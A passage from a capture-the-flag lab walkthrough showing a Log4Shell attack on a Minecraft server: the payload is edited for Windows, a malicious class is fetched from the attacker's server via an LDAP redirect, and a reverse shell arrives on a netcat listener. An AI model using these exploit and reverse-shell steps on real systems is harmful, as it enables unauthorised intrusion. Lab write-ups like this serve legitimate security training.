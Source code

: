 
It puts in the IP and port, writes it to disk, and then compiles it with
`javac`.

Looking at the payload, it's using `String cmd="/bin/sh";`, which won't
work on a Windows host. I'll edit that to `String cmd="cmd.exe";`.

#### Exploit Success

Running the updated exploit, I'll send the payload to Minecraft. This
time there's only on hit at the exploit:



    [+] Starting Webserver on port 8000 http://0.0.0.0:8000
    Listening on 0.0.0.0:1389
    Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
    10.10.11.249 - - [10/Jun/2024 17:48:09] "GET /Exploit.class HTTP/1.1" 200 -



And a shell at `nc`:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.249 49717
    Microsoft Windows [Version 10.0.17763.5329]
    (c) 2018 Microsoft Corporation. All rights reserved.

    c:\users\svc_minecraft\server> whoami
    crafty\svc_minecraft



I like to use `rlwrap` to get things similar to the shell upgrade on
Linux.

The user flag is on the desktop:



    c:\Users\svc_minecraft\Desktop> type user.txt
    65b4f5a4************************



I'll also switch to PowerShell:



    c:\Users\svc_minecraft\Desktop> powershell
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.

    PS C:\Users\svc_minecraft\Desktop> 



## Shell as Administrator

### Enumeration
